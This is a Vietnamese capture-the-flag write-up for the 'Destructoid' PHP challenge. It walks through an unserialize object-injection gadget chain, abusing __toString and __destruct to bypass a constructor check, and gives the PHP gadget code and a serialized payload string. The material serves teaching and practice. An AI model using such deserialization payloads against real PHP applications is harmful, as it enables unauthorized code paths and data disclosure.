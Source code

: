 # Destructoid
`Road to php god`
+ Infomation: 
  - Link: https://destructoid.chal.imaginaryctf.org/

[image]
Mặc dù không phải là người chơi hệ tâm linh tuy nhiên nhìn vào đây mình cũng đoán ra luôn cái param `?source`.

```php
1 	<?php
2 	$printflag = false;
3	
4 	class X {
5 	   function __construct($cleanup) {
6 	       if ($cleanup === "flag") {
7 	           die("NO!\n");
8 	       }
9 	       $this->cleanup = $cleanup;
10	    }
11	
12	    function __toString() {
13	        return $this->cleanup;
14	    }
15	
16	    function __destruct() {
17	        global $printflag;
18	        if ($this->cleanup !== "flag" && $this->cleanup !== "noflag") {
19	            die("No!\n");
20	        }
21	        include $this->cleanup . ".php";
22	        if ($printflag) {
23	            echo $FLAG . "\n";
24	        }
25	    }
26	 }
27	
28	 class Y {
29	    function __wakeup() {
30	        echo $this->secret . "\n";
31	    }
32	
33	    function __toString() {
34	        global $printflag;
35	        $printflag = true;
36	        return (new X($this->secret))->cleanup;
37	    }
38	 }
39	
40	 if (isset($_GET['source'])) {
41	    highlight_file(__FILE__);
42	    die();
43	 }
44	 echo "ecruos? ym dnif uoy naC\n";
45	 if (isset($_SERVER['HTTP_X_PAYLOAD'])) {
46	    unserialize(base64_decode($_SERVER['HTTP_X_PAYLOAD']));
47	 }	
```
Đề bài cho 2 class X, Y và thêm hàm `unserialize` đứng một mình tại `dòng 46` nghĩa là đây là một bài về lỗi `unserialize`. 
Sau một hồi đọc hiểu code thì mình ra được hướng khai thác như sau `class Y` trigger `__toString` -> `class X` trigger `__destruct`. Đầu tiên là phải trigger cái `__toString` trong class Y để biến `$printflag` được set giá trị `true`. `__toString` là một `magic function` mà mỗi khi object được đối xử như một `string` thì hàm này sẽ được gọi ra ví dự như này:
```php
  $a = new A();
  echo $a;
 ```
 Vì vậy để trigger được cái magic function kia mình sẽ lợi dụng echo ở `dòng 30`. Nghĩa là lúc này `$this->secret = new Y()` hay 
 ```php
 $payload = new Y();
 $a->secret = new Y();
 ```
 
 Tiếp theo để đọc được flag thì tham số truyền vào khi gọi `class X` phải là `flag` tuy nhiên ở hàm `__contructor` của `class X` (lại một magic function nữa) nếu tham số có giá trị là `flag` sẽ lập tức `die()`. Đến lúc này mình bắt đầu nghĩ làm thế nào để 1 giá trị vừa bằng lại vừa khác để thỏa mãn được cả 2 điều kiện ở `dòng 6` và `dòng 18`? Câu trả lời là `KHÔNG CÓ CÁCH NÀO` và phương án mình đưa ra lúc này là làm các nào để không cần gọi đến `__contructor`  mà chỉ gọi đến `__destruct` thôi? Câu trả lời nằm ở đây https://www.programmersought.com/article/43351307730/.

Vậy là chỉ cần sinh ra chuỗi json rồi sửa lại thông số về param để trigger thẳng `__destruct` thôi : 
```php
 $payload = new Y();
 $a->secret = new Y();
 $a->secret->secret = new X('flag');
 // O:1:"Y":1:{s:6:"secret";O:1:"Y":1:{s:6:"secret";O:1:"X":2:{s:7:"cleanup";s:4:"flag";}}}
 ```
 Tuy nhiên chỉ thế này thôi là chưa đủ khi dựng lại môi trường test trên máy local mình nhận ra là biến `$printflag` không hề được set giá trị `true` nên mình đã thử gọi thêm class Y một lần nữa và wala 
 ![image](https://user-images.githubusercontent.com/36907708/127254550-7923b05a-e292-4d47-a5fb-7ace757a31f4.png)
 
 
 gadget : 
 
 ![image](https://user-images.githubusercontent.com/36907708/127255649-c1539203-c386-40f6-a2f7-f65c3e76f8b9.png)

